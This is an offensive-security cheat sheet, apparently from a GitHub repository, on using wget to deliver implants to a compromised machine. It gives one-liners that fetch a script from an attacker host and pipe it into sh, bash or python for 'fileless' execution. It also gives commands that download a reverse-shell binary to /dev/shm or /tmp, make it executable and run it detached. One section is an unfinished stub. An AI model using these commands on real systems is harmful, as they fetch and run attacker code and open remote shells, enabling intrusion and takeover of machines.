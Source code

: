 # Wget

## 01 - Fileless code execution

This is useful if the machine doesn't have `curl` pre-installed so you can use `wget` to execute it in memory.

```
$ wget -qO- http[s]://<IP>/implant.sh | sh

$ wget -qO- http[s]://<IP>/implant.sh | bash

$ wget -qO- http[s]://<IP>/implant.py | python
```

## 02 - Dropping on memory

Download reverse shell binary and execute it.

```
$ wget -O /dev/shm/implant http[s]://<IP>/implant; chmod +x /dev/shm/implant; /dev/shm/implant & disown
```

## 03 - Dropping on disk

Download reverse shell binary and execute it.

```
$ wget -O /tmp/implant http[s]://<IP>/implant; chmod +x /tmp/implant; /tmp/implant & disown
```

## 03 - Compiled After Delivery

TODO: Fill this info

```
$ gcc
```

---
## References

- [GTFOArgs: wget](https://gtfoargs.github.io/gtfoargs/wget/)